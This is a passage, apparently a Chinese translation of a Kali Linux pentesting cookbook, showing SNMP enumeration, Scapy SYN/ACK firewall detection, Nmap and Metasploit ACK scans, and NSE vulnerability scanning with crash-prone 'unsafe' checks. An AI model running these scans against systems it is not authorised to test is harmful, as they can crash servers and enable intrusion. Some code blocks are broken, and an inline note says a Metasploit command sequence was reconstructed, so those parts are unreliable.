iso.3.6.1.2.1.2.2.1.1.2 = INTEGER: 2
iso.3.6.1.2.1.2.2.1.2.1 = Hex-STRING: 4D 53 20 54 43 50 20 4C 6F 6F
70 62 61 63 6B 20
69 6E 74 65 72 66 61 63 65 00
iso.3.6.1.2.1.2.2.1.2.2 = Hex-STRING: 41 4D 44 20 50 43 4E 45 54 20
46 61 6D 69 6C 79
```

针对启用 SNMP 的 Windows XP 系统使用 `SNMPwalk` 时，使用了默认团体字符串 `public`，版本为 `2c`。这产生了大量的输出，在此处的演示中已被截断。注意，默认情况下，所有识别出的信息前面都有查询的 OID 值。可以通过将输出管道到 `cut` 函数来清理，以移除这些标识符：

```
root@KaliLinux:~# snmpwalk 172.16.36.134 -c public -v 2c | cut -d "=" -f 2
STRING: "Hardware: x86 Family 6 Model 58 Stepping 9 AT/AT COMPATIBLE
- Software: Windows 2000 Version 5.1 (Build 2600 Uniprocessor Free)"
OID: iso.3.6.1.4.1.311.1.1.3.1.1
Timeticks: (75376) 0:12:33.76
""
STRING: "DEMO-72E8F41CA4"
```

注意，`SNMPwalk` 的输出提供的信息远不止系统标识符。在检查输出时，某些信息可能显而易见，而另一些信息可能看起来更晦涩。然而，通过进行彻底分析，你可以收集关于目标系统的大量信息：

```
Hex-STRING: 00 56 FF 2A E8
Hex-STRING: 00 0C 29 09 C3 79
IpAddress: 172.16.36.2
IpAddress: 172.16.36.180
IpAddress: 172.16.36.254
STRING: "FreeSSHService.exe"
STRING: "vmtoolsd.exe"
STRING: "java.exe"
STRING: "postgres.exe"
STRING: "java.exe"
STRING: "TPAutoSvc.exe"
STRING: "snmp.exe"
STRING: "snptrap.exe"
STRING: "TPAutoConnect.exe"
STRING: "alg.exe"
STRING: "cmd.exe"
STRING: "postgres.exe"
STRING: "freeSSHd 1.2.0"
STRING: "CesarFTP 0.99g"
```:2246
```

### 使用 Scapy 进行防火墙识别

通过评估选择数据包注入返回的响应，可以确定远程端口是否被防火墙设备过滤。为了深入理解这一过程的工作原理，我们可以使用 `Scapy` 在数据包级别执行此任务。


要使用 `Scapy` 来执行防火墙识别，你需要一个运行着网络服务的远程系统。此外，你还需要实现某种过滤机制。

这可以通过独立的防火墙设备或基于主机的过滤（如 `Windows firewall`）来实现。通过操纵防火墙设备上的过滤设置，你应该能够修改针对注入数据包的响应。

# 指纹识别

### 如何操作……

为了有效判断一个 TCP 端口是否经过过滤，需要向目标端口同时发送一个 `TCP SYN` 包和一个 `TCP ACK` 包。根据响应这些注入包包返回的数据包，我们可以确定端口是否被过滤。大多数情况下，这两个数据包的注入会导致四种不同的响应组合之一。

我们将讨论这些每种场景、它们指示了与目标端口相关的什么过滤情况，以及如何对每种情况进行测试。这四种可能的响应组合包括：

- `SYN` 不产生响应，而 `ACK` 请求 `RST` 响应
- `SYN` 请求 `SYN + ACK` 或 `SYN + RST` 响应，而 `ACK` 不产生响应
- `SYN` 请求 `SYN + ACK` 或 `SYN + RST` 响应，而 `ACK` 请求 `RST` 响应
- `SYN` 不产生响应，且 `ACK` 不产生响应

在第一种情况下，我们应该考虑一种配置：注入的 `SYN` 包不产生响应，而 `ACK` 包请求 `RST` 响应。要测试这一点，我们应该首先向目标端口发送一个 `TCP ACK` 包。要向任何给端口发送 `TCP ACK` 包，我们必须首先构建请求的层。我们需要构造的第一层是 `IP` 层：

```bash
root@KaliLinux:~# scapy
Welcome to Scapy (2.2.0)
>>> i = IP()
>>> i.display()
###[ IP ]
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 127.0.0.1
dst= 127.0.0.1
options=
>>> i.dst = "172.16.36.135"
>>> i.display()
###[ IP ]
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 172.16.36.180
dst= 172.16.36.135
options=
```

为了构建请求的 `IP` 层，我们应该将 `IP` 对象赋值给变量 `i`。通过调用 `display` 函数，我们可以识别对象的属性配置。默认情况下，发送地址和接收地址都设置为 `127.0.0.1` 回环地址。可以通过更改目标地址来修改这些值，将 `i.dst` 设置为我们想要扫描的地址的字符串值。通过再次调用 `display` 函数，我们可以看到不仅目标地址已更新，`Scapy` 还会自动更新源 IP 地址为与默认接口关联的地址。现在我们已经构建了请求的 `IP` 层，应该继续 `TCP` 层：

```python
>>> t = TCP()
>>> t.display()
###[ TCP ]
sport= ftp_data
dport= http
seq= 0
ack= 0
dataofs= None
reserved= 0
flags= S
window= 8192
chksum= None
urgptr= 0
options= {}
>>> t.dport = 22
>>> t.flags = 'A'
>>> t.display()
###[ TCP ]
sport= ftp_data
dport= ssh
seq= 0
ack= 0
dataofs= None
reserved= 0
flags= A
window= 8192
chksum= None
urgptr= 0
options= {}
```

为了构建请求的 `TCP` 层，我们将使用对 `IP` 层所执行的相同技术。在提供的示例中，`TCP` 对象被赋值给变量 `t`。如之前所述，可以通过调用 `display` 函数来识别默认配置。在这里，我们可以看到源端口的默认值设置为端口 21 (FTP)，目标端口的默认值设置为端口 80 (HTTP)。通过将其设置为新的目标端口值，可以修改目标端口值，并将 `flags` 值设置为 `A` 以表示应激活 `ACK` 标志位。现在我们已经创建了 `IP` 和 `TCP` 层，我们需要通过堆叠这些层来构建请求：

```python
>>> request = (i/t)
>>> request.display()
###[ IP ]
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= tcp
chksum= None
src= 172.16.36.180
dst= 172.16.36.135
options=
###[ TCP ]
sport= ftp_data
dport= ssh
seq= 0
ack= 0
dataofs= None
reserved= 0
flags= A
window= 8192
chksum= None
urgptr= 0
options= {}
```

可以通过正斜杠分隔变量来堆叠 `IP` 和 `TCP` 层。然后可以将这些层赋值给新变量，该变量将代表整个请求。然后可以调用 `display` 函数来查看请求的配置。一旦构建了 `request`，就可以将其传递给 `sr1` 函数，以便我们可以分析响应：

```python
>>> response = sr1(request,timeout=1)
..Begin emission:
.........Finished to send 1 packets.
***
Received 16 packets, got 1 answers, remaining 0 packets
>>> response.display()
###[ IP ]
version= 4L
ihl= 5L
tos= 0x0
len= 40
id= 0
flags= DF
frag= 0L
ttl= 63
proto= tcp
chksum= 0x9974
src= 172.16.36.135
dst= 172.16.36.180
options=
###[ TCP ]
sport= ssh
dport= ftp_data
seq= 0
ack= 0
dataofs= 5L
reserved= 0
flags= R
window= 0
chksum= 0xe5
urgptr= 0
options={}
```

可以在独立构建每一层的情况下执行相同的请求。相反，可以通过直接调用函数并传递适当参数来使用单行命令：

```python
>>> response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='A'),timeout=1)
..Begin emission:
.........Finished to send 1 packets.
***
Received 16 packets, got 1 answers, remaining 0 packets
>>> response
<IP version=4L ihl=5L tos=0x0 len=40 id=0 flags=DF frag=0L ttl=63 proto=tcp cksum=0x9974 src=172.16.36.135 dst=172.16.36.180 options=[]><TCP sport=ssh dport=ftp_data seq=0 ack=0 dataofs=5L reserved=0 flags=R window=0 cksum=0xe5 urgptr=0 options={}>
```

注意在这种特定情况下，对注入的 `ACK` 包收到了一个 `RST` 包。测试的下一步是以相同方式注入一个 `SYN` 包：

```python
>>> response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='S'),timeout=1,verbose)
=0)
Begin emission:
Finished to send 1 packets.
***
Received 9 packets, got 0 answers, remaining 1 packets
```

当以相同方式发送 `SYN` 请求时，没有收到响应，函数在超过超时值时停止。这种响应组合表明状态过滤正在生效。套字通过丢弃 `SYN` 请求拒绝所有入站连接，但未过滤 `ACK` 包，以确保出站连接和持续通信的可能性。这种响应组合可以在 Python 中进行测试以识别状态过滤的端口：

```bash
root@KaliLinux:~# python
Python 2.7.3 (default, Jan 2 2013, 16:53:07)
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from scapy.all import *
>>> ACK_response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='A'),timeout=1,verbose)
=0)
>>> SYN_response =
```


```
sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='S'),timeout=1,verbose=0)
>>> if ((ACK_response == None) or (SYN_response == None)) and not ((ACK_response ==None) and (SYN_response == None)):
... print "Stateful filtering in place"
...
Stateful filtering in place
>>> exit()
```

在用 `scapy` 构造出每个请求后，用于评估这些响应的测试可以确定是否从 `ACK` 或 `SYN` 注入中接收到了响应，但不是两者都收到。此测试可以有效识别这种场景以及接下来的场景——在该情况下，将收到来自 `SYN` 注入的回复，但没有 `ACK` 注入的回复。如果 `SYN` 注入请求了 `SYN + ACK` 或 `RST + ACK` 响应，但 `ACK` 注入没有请求响应，这也是状态过滤的迹象。这种情况的测试方法保持相同。首先，应向目标端口发送一个 `ACK` 数据包：

```
>>> response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='A'),timeout=1,verbose=1)
Begin emission:
Finished to send 1 packets.
Received 16 packets, got 0 answers, remaining 1 packets
```

253

### 指纹识别

注意，在提供的示例中，该注入没有请求任何响应。或者，如果注入一个 `SYN` 数据包，如果端口开启，则会收到激活了 `SYN + ACK` 标志位的响应；如果端口关闭，则收到激活了 `RST + ACK` 标志位的响应：

```python
>>> response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='S'),timeout=1,verbose=1)
Begin emission:
Finished to send 1 packets.
Received 5 packets, got 1 answers, remaining 0 packets
>>> response.display()
```

```
###[ IP ]###
version= 4L
ihl= 5L
tos= 0x0
len= 44
id= 0
flags= DF
frag= 0L
ttl= 63
proto= tcp
chksum= 0x9970
src= 172.16.36.135
dst= 172.16.36.180
\options\
###[ TCP ]###
sport= ssh
dport= ftp_data
seq= 3860234270L
ack= 1
dataofs= 6L
reserved= 0L
flags= SA
window= 5840
chksum= 0x798a
urgptr= 0
options= [('MSS', 1460)]
###[ Padding ]###
load= '\x00\x00'
```

254

### 第 4 章

在这种情况下也可以执行完全相同的测试，因为该测试通过判断两个注入中是否有一个请求了响应（而非两者都请求）来确定是否存在状态过滤：

```bash
root@KaliLinux:~# python
Python 2.7.3 (default, Jan 2 2013, 16:53:07)
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from scapy.all import *
>>> ACK_response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='A'),timeout=1,verbose=0)
>>> SYN_response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='S'),timeout=1,verbose=0)
>>> if ((ACK_response == None) or (SYN_response == None)) and not ((ACK_response ==None) and (SYN_response == None)):
... print "Stateful filtering in place"
...
Stateful filtering in place
>>> exit()
```

这种响应组合表明对 `ACK` 数据包正在执行状态过滤，任何在适当会话上下文之外发送的 `ACK` 数据包会被丢弃。然而，从入站连接尝试的响应来看，端口并没有被完全过滤。另一种可能的情况是 `SYN` 和 `ACK` 注入都请求了它们预期的响应。在这种情况下，没有任何过滤的迹象。要对这种场景进行测试，应执行 `ACK` 注入并分析响应：

```python
>>> response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='A'),timeout=1,verbose=1)
Begin emission:
Finished to send 1 packets.
Received 5 packets, got 1 answers, remaining 0 packets
>>> response.display()
```

```
###[ IP ]###
version= 4L
ihl= 5L
tos= 0x0
len= 40
id= 0
flags= DF
frag= 0L
ttl= 64
proto= tcp
chksum= 0x9974
src= 172.16.36.135
dst= 172.16.36.180
\options\
###[ TCP ]###
sport= ssh
dport= ftp_data
seq= 0
ack= 0
dataofs= 5L
reserved= 0L
flags= R
window= 0
chksum= 0xe5b
urgptr= 0
options= {}
###[ Padding ]###
load= '\x00\x00\x00\x00\x00\x00'
```

255

### 指纹识别

在端口未被过滤的情况下，向目标端口发送的未请求的 `ACK` 数据包应导致返回一个 `RST` 数据包。该 `RST` 数据包表明 `ACK` 数据包是在脱离上下文发送的，旨在终止通信。在发送 `ACK` 注入后，也应向同一端口发送 `SYN` 注入：

```python
>>> response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='S'),timeout=1,verbose=1)
Begin emission:
Finished to send 1 packets.
Received 4 packets, got 1 answers, remaining 0 packets
>>> response.display()

```
###[ IP ]###
version= 4L
ihl= 5L
tos= 0x0
len= 44
id= 0
flags= DF
frag= 0L
ttl= 63
proto= tcp
chksum= 0x9970
src= 172.16.36.135
dst= 172.16.36.180
\options\
###[ TCP ]###
sport= ssh
dport= ftp_data
seq= 3860234270L
ack= 1
dataofs= 6L
reserved= 0L
flags= SA
window= 5840
chksum= 0x79a
urgptr= 0
options= [('MSS', 1460)]
```

256

### 第 4 章

在端口未被过滤且开启的情况下，`TCP` 标志的实际值为 18。注意 `TCP` 标志的实际值是一个长整数（long），这个值可以很容易地转换。假设没有状态过滤的迹象，我们可以通过在 Python 中评估 `TCP` 标志值的整数转换来测试端口是否未被过滤：

```bash
root@KaliLinux:~# python
Python 2.7.3 (default, Jan 2 2013, 16:53:07)
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from scapy.all import *
>>> ACK_response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='A'),timeout=1,verbose=0)
>>> SYN_response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='S'),timeout=1,verbose=0)
>>> if ((ACK_response == None) or (SYN_response == None)) and not ((ACK_response ==None) and (SYN_response == None)):
... print "Stateful filtering in place"
... elif int(SYN_response[TCP].flags) == 18:
... print "Port is unfiltered and open"
... elif int(SYN_response[TCP].flags) == 20:
... print "Port is unfiltered and closed"
...
```

类似的测试可以用来判断端口是否未被过滤且关闭。未过滤的关闭端口将激活 `RST` 和 `ACK` 标志位。如前所述，`ACK` 标志位的十进制值为 16，而 `RST` 标志位的十进制值为 4。因此，未过滤关闭端口的 `TCP` 标志预期整数转换应为 20：

```bash
root@KaliLinux:~# python
Python 2.7.3 (default, Jan 2 2013, 16:53:07)
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from scapy.all import *
>>> ACK_response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='A'),timeout=1,verbose=0)
>>> SYN_response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='S'),timeout=1,verbose=0)
```


```python
>>> if ((ACK_response == None) or (SYN_response == None)) and not ((ACK_response ==None) and (SYN_response == None)):
    ... print "Stateful filtering in place"
    ... elif int(SYN_response[TCP].flags) == 18:
    ... print "Port is unfiltered and open"
    ... elif int(SYN_response[TCP].flags) == 20:
    ... print "Port is unfiltered and closed"
>>> exit()
``` 

最后，我们应该考虑未收到 `SYN` 或 `ACK` 注入响应的情况。在这种情况下，当超过超时值时，`sr1` 函数的两个实例将停止：

```python
>>> response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='A'),timeout=1,verbose=1)
Begin emission:
Finished to send 1 packets.
Received 36 packets, got 0 answers, remaining 1 packets
>>> response = sr1(IP(dst="172.16.36.135")/TCP(dport=22,flags='S'),timeout=1,verbose=1)
Begin emission:
Finished to send 1 packets.
Received 18 packets, got 0 answers, remaining 1 packets
```

这两种注入都缺乏响应可能表明该端口被无状态过滤（unstatefully filtered），并且无论状态如何都会丢弃所有入站流量，也可能表明远程主机已宕机。人们首先的想法可能是，可以通过 Python 中在之前开发的测试序列末尾添加一个 `else` 执行流来测试这一点。在理论上，如果其中一个或两个注入都未收到响应，则会执行该 `else` 操作。简而言之，如果没有收到任何响应，则会执行 `else` 操作：

```bash
root@KaliLinux:~# python
Python 2.7.3 (default, Jan 2 2013, 16:53:07)
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from scapy.all import *
>>> ACK_response = sr1(IP(dst="172.16.36.135")/TCP(dport=4444,flags='A'),timeout=1,verbose=0)
>>> SYN_response = sr1(IP(dst="172.16.36.135")/TCP(dport=4444,flags='S'),timeout=1,verbose=0)
>>> if ((ACK_response == None) or (SYN_response == None)) and not ((ACK_response ==None) and (SYN_response == None)):
    ... print "Stateful filtering in place"
    ... elif int(SYN_response[TCP].flags) == 18:
    ... print "Port is unfiltered and open"
    ... elif int(SYN_response[TCP].flags) == 20:
    ... print "Port is unfiltered and closed"
    ... else:
    ... print "Port is either unstatefully filtered or host is down"

Traceback (most recent call last):
File "<stdin>", line 3, in <module>
TypeError: 'NoneType' object has no attribute '__getitem__'
```

虽然这在理论上似乎行得通，但在实践中效果较差。如果对一个没有值的变量进行值测试，Python 实际上会返回错误。为了避免这个问题，应该检查的第一个条件是是否至少收到了任何响应：

```python
>>> if (ACK_response == None) and (SYN_response == None):
    ... print "Port is either unstatefully filtered or host is down"

Port is either unstatefully filtered or host is down
```

随后可以将这整个测试序列集成到一个单一的功能脚本中。该脚本将接受两个参数，包括目标 IP 地址和要测试的端口。随后将注入 `ACK` 包和 `SYN` 包，并将响应（如果有的话）存储起来以供评估。然后，将进行四项测试以确定端口上是否存在过滤。最初，将进行一项测试以确定是否收到了任何响应。

如果没有收到任何响应，输出将指示远程主机已宕机或端口被无状态过滤并丢弃所有流量。如果收到了任何响应，将进行测试以确定其是否仅对其中一个注入有响应而非另一个。如果是这种情况，输出将指示该端口被了状态过滤（statefully filtered）。最后，如果从两个注入中都收到了响应，则该端口将被识别为未过滤，并将评估 `TCP` 标志值以确定端口是开放还是关闭：

```python
#!/usr/bin/python
import sys
import logging
logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

from scapy.all import *

if len(sys.argv) != 3:
    print "Usage - ./ACK_FW_detect.py [Target-IP] [Target Port]"
    print "Example - ./ACK_FW_detect.py 10.0.0.5 443"
    print "Example will determine if filtering exists on port 443 of host 10.0.0.5"
    sys.exit()

ip = sys.argv[1]
port = int(sys.argv[2])
ACK_response = sr1(IP(dst=ip)/TCP(dport=port,flags='A'),timeout=1,verbose=0)
SYN_response = sr1(IP(dst=ip)/TCP(dport=port,flags='S'),timeout=1,verbose=0)

if (ACK_response == None) and (SYN_response == None):
    print "Port is either unstatefully filtered or host is down"
elif ((ACK_response == None) or (SYN_response == None)) and not ((ACK_response ==None) and (SYN_response == None)):
    print "Stateful filtering in place"
elif int(SYN_response[TCP].flags) == 18:
    print "Port is unfiltered and open"
elif int(SYN_response[TCP].flags) == 20:
    print "Port is unfiltered and closed"
else:
    print "Unable to determine if filtered"
```


262

# 第 4 章

## packtpub.com (83.166.169.228) 的 Nmap 扫描报告

**主机已上线（延迟 0.14s）。**

**端口 状态 服务**

**22/tcp filtered ssh**

**Nmap 完成：扫描了 1 个 IP 地址（1 个在线主机），耗时 2.23 秒**

通过对本地网络中的 Metasploitable2 系统进行此扫描且不通过防火墙路由流量，响应结果表明 TCP 端口 22 (SSH) 是未过滤的。然而，如果我对 packtpub.com 关联的远程 IP 地址进行相同的扫描，端口 22 则是被过滤的。可以通过在不提供端口规范的情况下执行相同的扫描，对 Nmap 的 1,000 个常用端口进行端口过滤评估：

```
root@KaliLinux:~# nmap -sA 172.16.36.135
Starting Nmap 6.25 ( http://nmap.org ) at 2014-01-24 11:21 EST
Nmap scan report for 172.16.36.135
Host is up (0.00041s latency).
All 1000 scanned ports on 172.16.36.135 are unfiltered
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
```

当对本地网络中未位于任何防火墙背后的 Metasploitable2 系统进行扫描时，结果显示所有扫描的端口都是未过滤的。如果对 packtpub.com 域名进行相同的扫描，除了托管 Web 应用的 TCP 80 端口外，所有端口都被识别为被过滤的。注意，当扫描端口范围时，输出仅包含未过滤的端口：

```
root@KaliLinux:~# nmap -sA 83.166.169.228
Starting Nmap 6.25 ( http://nmap.org ) at 2014-01-24 11:25 EST
Nmap scan report for packtpub.com (83.166.169.228)
Host is up (0.15s latency).
Not shown: 999 filtered ports
PORT STATE SERVICE
80/tcp unfiltered http
Nmap done: 1 IP address (1 host up) scanned in 13.02 seconds
```

263

# 指纹识别

为了对所有可能的 TCP 端口进行扫描，必须扫描所有可能的端口地址值。

TCP 头部中定义源端口和目的端口地址的部分长度均为 16 位。每个位可以保留 1 或 0 的值。因此，有 $2^{16}$ 或 65,536 个可能的 TCP 端口地址。为了扫描总可能的地址空间，必须提供从 1 到 65535 的端口范围：

```
root@KaliLinux:~# nmap -sA 172.16.36.135 -p 1-65535
Starting Nmap 6.25 ( http://nmap.org ) at 2014-01-24 11:21 EST
Nmap scan report for 172.16.36.135
Host is up (0.00041s latency).
All 65535 scanned ports on 172.16.36.135 are unfiltered
MAC Address: 00:0C:29:3D:84:32 (VMware)
Nmap done: 1 IP address (1 host up) scanned in 1.77 seconds
```

### 工作原理……

除了 Nmap 提供的许多其他功能外，它还可以用于识别防火墙过滤。Nmap 执行此类防火墙识别的方法在很大程度上是使用了之前在 Scapy 教程中讨论过的技术。通过向目标端口发送 SYN 和未请求的 ACK 数据包的组合，并分析响应来确定过滤状态。

### 使用 Metasploit 进行防火墙识别

Metasploit 拥有一个扫描辅助模块，可以对网络端口进行多线程分析，基于 SYN/ACK 探测-响应分析，来确定这些端口是否被过滤。

### 准备工作

要使用 Metasploit 执行防火墙识别，你需要一个运行网络服务的远程系统。此外，你还需要实现某种过滤机制。这可以通过独立的防火墙设备或基于主机的过滤（如 Windows 防火墙）来实现。通过操作防火墙设备上的过滤设置，你应该能够修改扫描结果。

264

### 如何操作……

要使用 Metasploit ACK 扫描模块执行防火墙和过滤识别，你必须首先在 Kali Linux 终端中启动 `msfconsole`，然后使用 `use` 命令选择所需的辅助模块：

```
root@KaliLinux:~# msfconsole
# cowsay++
____________
< metasploit >
------------
```

```
< metasploit > use auxiliary/scanner/tcp/ack_scan
< metasploit > show options
< metasploit > set RHOSTS 172.16.36.135
< metasploit > set PORTS 1-65535
< metasploit > set THREADS 25
< metasploit > run
```

（注：提供的命令序列原始文本是碎片化/重复的；我已根据标准的 Metasploit 用法和提供的上下文重建了逻辑流。）


将获得不同的输出。由于此主机位于防火墙之后，输出中记录了与未过滤端口相关的响应变化：

```
msf auxiliary(ack) > set RHOSTS 83.166.169.228
RHOSTS => 83.166.169.228
msf auxiliary(ack) > show options
```

模块选项 (auxiliary/scanner/portscan/ack):

Name 当前设置 需要 描述
---- --------------- -------- -----------
BATCHSIZE 256 yes 每组扫描的主机数量
INTERFACE no 接口名称
PORTS 1-100 yes 要扫描的端口（例如 22-25,80,110-900）
RHOSTS 83.166.169.228 yes 目标地址范围或 CIDR 标识符
SNAPLEN 65535 yes  捕获的字节数
THREADS 25 yes 并发线程数
TIMEOUT 500 yes 以毫秒为单位的响应读取超时

```
msf auxiliary(ack) > run
[*] TCP UNFILTERED 83.166.169.228:80
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 指纹识别

### 工作原理……
通过审查服务指纹识别结果并研究与已识别版本相关的漏洞，可以识别许多潜在漏洞，但这通常会花费大量时间。通常有更高效的替代方案可以替你完成这大部分工作。这些替代方案包括使用自动化脚本和程序，它们可以通过扫描远程系统来识别漏洞。

未经认证的漏洞扫描器通过向服务发送一系列不同的探测，尝试获取表明存在漏洞的响应。或者，认证的漏洞扫描器将使用提供的凭据直接查询远程系统，获取有关安装应用程序、运行服务、文件系统和注册表内容的信息。

本章将包含以下执行自动化漏洞扫描的方案：
- 使用 Nmap 脚本引擎 (NSE) 进行漏洞扫描
- 使用 MSF 辅助模块进行漏洞扫描
- 使用 Nessus 创建扫描策略
- 使用 Nessus 进行漏洞扫描
- 使用 `Nuscmd` 进行命令行扫描
- 通过 HTTP 交互验证漏洞
- 通过 ICMP 交互验证漏洞

#### 使用 Nmap 脚本引擎进行漏洞扫描
Nmap 脚本引擎 (NSE) 提供了大量脚本，可用于一系列评估远程系统的自动化任务。在 Kali 中可以找到现有 NSE 脚本被分为若干不同的类别，其中一类就是漏洞识别。

### 准备工作
要使用 NSE 进行漏洞分析，你需要一个在 TCP 或 UDP 上运行网络服务的系统。在所提供的示例中，使用了一个带有漏洞 SMB 服务的 Windows XP 系统执行此任务。有关设置 Windows 系统的更多信息，请参阅第 1 章 *入门* 中的 *安装 Windows Server*。

### 如何操作……
人们有多种方法可以识别与任何给定 NSE 脚本相关的功能。最有效的方法之一是引用 Nmap 脚本目录下的 `script.db` 文件。要查看该文件的内容，我们可以如下使用 `cat` 命令：

```
root@KaliLinux:~ cat /usr/share/nmap/scripts/script.db | more
```

{ filename = "ac-info.nse", categories = { "discovery", "safe" } }
{ filename = "address-info.nse", categories = { "default", "safe" } }
{ filename = "brute.nse", categories = { "brute", "intrusive" } }
{ filename = "ls.nse", categories = { "discovery", "safe" } }
{ filename = "path-vuln.nse", categories = { "exploit", "intrusive", "vuln" } }
{ filename = "serverinfo.nse", categories = { "default", "discovery", "safe" } }
{ filename = "showmount.nse", categories = { "discovery", "safe" } }
{ filename = "auth.nse", categories = { "auth", "default", "safe" } }
{ filename = "brute.nse", categories = { "brute", "intrusive" } }
{ filename = "headers.nse", categories = { "discovery", "safe" } }
{ filename = "methods.nse", categories = { "default", "safe" } }
{ filename = "request.nse", categories = { "discovery", "safe" } }

`script.db` 文件是一个非常简单的索引，显示了每个 NSE 脚本的文件名及其所属的类别。这些类别是标准化的，便于使用 `grep` 搜索特定类型的脚本。漏洞扫描的类别名称为 `vuln`。要识别所有漏洞脚本，需要 `grep` 术语 `vuln` 然后使用 `cut` 命令提取每个脚本的文件名。可以在以下截断的输出中看到：

```
root@KaliLinux:~# grep vuln /usr/share/nmap/scripts/script.db | cut -d'"' -f 2
path-vuln.nse
broadcast-avahi-dos.nse
distcc-cve2004-2687.nse
firewall-bypass.nse
ftp-libopie.nse
ftp-proftpd-backdoor.nse
ftp-vsftpd-backdoor.nse
ftp-vuln-cve2010-4221.nse
http-awstatotals-exec.nse
http-axis2-dir-traversal.nse
http-enum.nse
http-frontpage-login.nse
http-git.nse
http-huawei-hg5xx-vuln.nse
http-iis-webdav-vuln.nse
http-litespeed-sourcecode-download.nse
http-majordomo2-dir-traversal.nse
http-method-tamper.nse
http-passwd.nse
http-phpself-xss.nse
http-slowloris-check.nse
http-sql-injection.nse
http-tplink-dir-traversal.nse
```

为了进一步评估上述列表中任何给定脚本的使用，可以使用 `cat` 命令读取与 `script.db` 文件相同目录下的 `.nse` 文件。由于大多数描述性内容通常位于文件开头，建议将内容通过到 `more` 工具，以便从上到下读取文件，如下所示：

```
root@KaliLinux:~ cat /usr/share/nmap/scripts/smb-check-vulns.nse | more
```

```
local msrpc = require "msrpc"
local nmap = require "nmap"
local smb = require "smb"
local stdnse = require "stdnse"
local string = require "string"
local table = require "table"
description = [[
检查漏洞：
*** MS08-067, 一个 Windows RPC 漏洞
*** Conficker, Conficker 蠕虫感染
*** 未命名的 regsvc DoS，我在 Windows 2000 中偶然发现的一个拒绝服务漏洞
*** SMBv2 漏洞利用 (CVE-2009-3103, Microsoft 安全公告 975497)
*** MS06-025, 一个 Windows Ras RPC 服务漏洞
*** MS07-029, 一个 Windows Dns Server RPC 服务漏洞
警告：这些检查是非常危险的，极有可能导致服务器崩溃。除非你（更重要的是业务部门）完全了解这些风险，否则不应在生产环境中运行它们！
]]
```


可以在在线进行查询以获取更多信息。通过继续阅读，可以了解到更多关于该脚本的如下：

### @usage

```bash
-- nmap --script smb-check-vulns.nse -p445 <host>
-- sudo nmap -sU -sS --script smb-check-vulns.nse -p U:137,T:139 <host>
```

### @output

272

*第 5 章*

**主机脚本结果:**
```text
--
-- | smb-check-vulns:
-- | MS08-067: NOT VULNERABLE
-- | Conficker: Likely CLEAN
-- | regsvc DoS: regsvc DoS: NOT VULNERABLE
-- | SMBv2 DoS (CVE-2009-3103): NOT VULNERABLE
-- | MS06-025: NO SERVICE (the Ras RPC service is inactive)
-- |_ MS07-029: NO SERVICE (the Dns Server RPC service is inactive)
```

**@args unsafe**: 如果设置，此脚本将运行某些检查，如果系统未打补丁，这些检查几乎注会导致某些程序崩溃。记住，非安全的检查并不意味着是安全的。
**@args safe**: 如果设置，此脚本将仅运行已知（或至少怀疑）安全的检查。

-----------------------------------------------------------------------

通过继续向下阅读，我们可以找到关于脚本特定参数、适当用法以及预期脚本输出示例的细节。需要注意的是，有一个安全参数（unsafe argument）可以被设置为 `0`（未激活）或 `1`（已激活）。这实际上是 Nmap 漏洞脚本中常用的参数，理解其用途至关重要。默认情况下，`unsafe` 参数设置为 `0`。当此值被设置时，Nmap 不执行任何可能导致拒绝服务状态的测试。虽然这听起来是最佳选择，但它通常意味着许多测试结果的准确性较低，且某些测试将完全不会执行。为了进行更彻底、准确的扫描，建议激活 `unsafe` 参数，但应仅在授权的测试窗口内针对生产系统进行。

要运行漏洞扫描，应使用 `nmap --script` 参数定义特定的 NSE 脚本，并使用 `nmap --script-args` 参数传递所有特定的脚本参数。此外，为了以最少干扰输出运行漏洞扫描，应配置 Nmap 仅扫描与扫描服务对应的端口，如下：

```bash
root@KaliLinux:~# nmap --script smb-check-vulns.nse --script-args=unsafe=1 -p445 172.16.36.225
Starting Nmap 6.25 ( http://nmap.org ) at 2014-03-09 03:58 EDT
Nmap scan report for 172.16.36.225
Host is up (0.00041s latency).
PORT STATE SERVICE
273
445/tcp open microsoft-ds
MAC Address: 00:0C:29:18:11:FB (VMware)
Host script results:
| smb-check-vulns:
| MS08-067: VULNERABLE
| Conficker: Likely CLEAN
| regsvc DoS: NOT VULNERABLE
| SMBv2 DoS (CVE-2009-3103): NOT VULNERABLE
|_ MS07-029: NO SERVICE (the Dns Server RPC service is inactive)
Nmap done: 1 IP address (1 host up) scanned in 18.21 seconds
```

我还要引起大家注意另一个 NSE 脚本，因为它教导了一个关于漏洞扫描实践的重要教训。该脚本是 `smb-vuln-ms10-061.nse`。可以通过 `cat` 命令配合管道 `more` 从上到下阅读来查看该脚本的细节：

```bash
root@KaliLinux:~# cat /usr/share/nmap/scripts/smb-vuln-ms10-061.nse | more
```

```lua
